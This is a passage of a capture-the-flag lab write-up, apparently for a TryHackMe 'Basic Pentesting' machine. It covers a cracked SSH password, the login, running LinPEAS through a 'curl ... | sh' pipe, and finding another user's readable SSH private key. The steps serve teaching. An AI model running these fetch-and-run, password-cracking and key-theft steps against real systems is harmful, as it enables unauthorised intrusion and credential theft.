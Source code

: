 1 of 1 target successfully completed, 1 valid password found
```
As you can see we’ve successfully cracked the password which is **armando**


#### 7. Now that we’ve got the password we can login via SSH by typing: 
```
ssh jan@10.10.52.25
password: armando
```
We got in!

#### 8. For privilege escalation and system enumeration I’ve used LINPEAS due to its color coding output it gives for better reading. We can get it from this command: 

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

> Make it an executable then run linpeas.sh and output it to a file: 
`./linpeas.sh -a > linlog.txt`

After running we’ve found some vulnerable file paths we can utilize:
```
[+] Files inside others home (limit 20)
/home/kay/.profile                                                                                 
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```
We can see that the rsa keys and the pass.bak files are in kay’s folder path but unfortunately we don’t have access to view as jan.

#### 9. Upon looking in kay’s directory we can see that she has an ssh key that we can access 
```
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```
```

[1]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/nmap.png
[2]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/development.png